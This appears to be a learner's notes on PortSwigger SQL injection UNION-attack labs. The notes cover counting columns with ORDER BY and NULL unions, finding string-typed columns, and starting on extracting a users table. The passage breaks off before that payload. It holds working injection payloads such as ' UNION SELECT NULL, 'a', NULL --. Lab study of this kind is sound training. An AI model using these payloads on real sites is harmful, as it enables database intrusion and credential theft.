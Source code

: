 select ? from table1 UNION select NULL, NULL, NULL
-200 response code -> correct number of columns

SQLi attack (way #2):

select a, b from table1 order by 3




# SQL injection UNION attack, finding a column containing text
https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text

> [!NOTE]
> This lab is for determine datatypes

### Used Payload
```
filter?category=' UNION SELECT NULL, 'a',NULL --
```

### Notes

select a, b, c from table1 UNION select NULL, NULL, 'a'
-> error -> column is not type text
-> no error -> column is of type text

Analysis:

' order by 1--
-> 3 columns -> 1st column is not shown on the page.

' UNION select NULL, 'KsZXy4', NULL--
-> 2nd column of type string

' UNION select 'a', NULL, NULL--'
' UNION select NULL, 'a', NULL--


# SQL injection UNION attack, retrieving data from other tables

> [!NOTE]
> After determined the number of columns returned by the original query and found which columns can hold string data, we are in a position to retrieve interesting data

Suppose that:

- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the `WHERE` clause.
- The database contains a table called `users` with the columns `username` and `password`.

In this example, you can retrieve the contents of the `users` table by submitting the input:
